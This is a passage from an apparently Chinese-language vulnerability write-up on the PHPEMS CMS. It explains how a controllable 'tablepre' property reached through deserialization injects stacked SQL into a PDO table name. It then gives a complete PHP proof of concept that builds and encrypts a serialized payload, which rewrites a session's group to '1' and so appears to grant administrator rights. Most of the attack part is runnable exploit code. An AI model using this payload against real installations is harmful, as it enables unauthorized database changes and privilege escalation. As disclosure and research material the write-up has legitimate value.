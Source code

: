 ```php
        // var_dump(array('sql' => $sql, 'v' => $v));
        return array('sql' => $sql, 'v' => $v);
    }
```

这里可以看到在该查询中有个 tablepre 的变量在反序列化中是可控的。并且在 pdo 预编译中，是无法对于表名进行预编译的，从而导致这里存在对该 cms 用到的任意表的任意数据进行修改。这里我们将需要修改数据的 sql 语句放入 tablepre 变量中，并注释掉后续的语句。同时这里 pdo 的用法是可以进行堆叠查询的，所以可以执行任意的 sql 语句。

反序列化的 POC 如下所示：

```php
<?php
namespace PHPEMS;

class session
{
    public $sessionid='1111111';
    public function __construct()
    {
        $this->pdosql = new pdosql;
        $this->db = new pepdo();
    }
}
class pdosql
{
    private $db;
    public function __construct()
    {
        $this->tablepre=' x2_session set sessiongroupid=\'1\' where sessionid=\'96a0e7fc80194815f509d8ef101f2ab8\' -- ';
        $this->db =new pepdo();
    }
}
class pepdo{
    private $linkid = 0;
    private $log = 1;       //开启日志，位置 data/error.log
    public function __construct()
    {
        $this->linkid=0;

    }
}
function encode($info,$key=null)
{

    $info = serialize($info);
    // if(!$key)
    // $key = '1hqfx6ticwRxtfviTp940vng!yC^QK^6';
    $kl = strlen($key);
    $il = strlen($info);
    for($i = 0; $i < $il; $i++)
    {
        $p = $i%$kl;
        $info[$i] = chr(ord($info[$i])+ord($key[$p]));
    }
    return urlencode($info);
}
$key= '4b394f264dfcdc724a06b9b05c1e59ed';
echo urlencode(encode(array('sessionid'=>'312312312',new session()),$key));
```
